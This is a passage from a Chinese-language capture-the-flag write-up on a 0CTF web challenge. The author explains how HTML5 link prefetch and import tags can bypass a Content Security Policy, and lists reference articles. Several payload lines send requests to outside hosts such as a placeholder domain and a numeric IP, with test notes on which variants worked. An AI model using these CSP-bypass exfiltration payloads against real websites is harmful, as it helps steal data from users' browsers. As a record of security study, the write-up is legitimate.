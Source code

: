 1.   [http://blog.csdn.net/qq_19876131/article/details/54097284](http://blog.csdn.net/qq_19876131/article/details/54097284)

2. [http://5alt.me/2017/01/%E5%9F%BA%E4%BA%8Ecsv%E7%9A%84%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E5%B7%B2%E6%AD%BB/](http://5alt.me/2017/01/%E5%9F%BA%E4%BA%8Ecsv%E7%9A%84%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E5%B7%B2%E6%AD%BB/)

   ​

它只所以没违反同源，是因为它是加载一个js，而非iframe，看图

![origin2](https://moxiaoxi.info/img/post/0ctf/origin2.png)

整个做题过程的思路，就死在这了。感觉现在只能做到访问flag.php，但是没办法把数据打出来。

感觉成也iframe，败也iframe😭

> 记录一下自闭合标签：
>
>  `<img><br><hr><link><area/> <base/> <input /> <!-- -->`

#### HTML5 Prefetch

本题正确的解答应该是利用chrome的预加载机制来绕过CSP

[Prefetch标签学习](http://www.jianshu.com/p/7f58ddfc1392)

[利用DNS预读取技术绕过CSP](http://bobao.360.cn/learning/detail/3140.html)

[Bypass unsafe-inline mode CSP](http://paper.seebug.org/91/)

[那些年我们绕过的CSP](http://heartsky.info/2017/03/03/%E9%82%A3%E4%BA%9B%E5%B9%B4%E6%88%91%E4%BB%AC%E7%BB%95%E8%BF%87%E7%9A%84CSP/)

类似这种形式：

```

<link rel=import href=\\qq。com

<link rel=import href=\\1759553882
```



至于prerender、prefetch，有看到题解说，可以。但是，我在测试的时候，效果不是很好。

记录下结果：

```html
<link rel=import href=\\www。xx。net 好用
<link rel=prefetch href=\\www。xx。net 访问了，但是收不到数据
<link rel=prerender href=\\www。xx。net 无法访问
```





#### CORS的坑

使用`<link rel=import href=\\1759553882`进行测试的时候，会被chrome拦截。
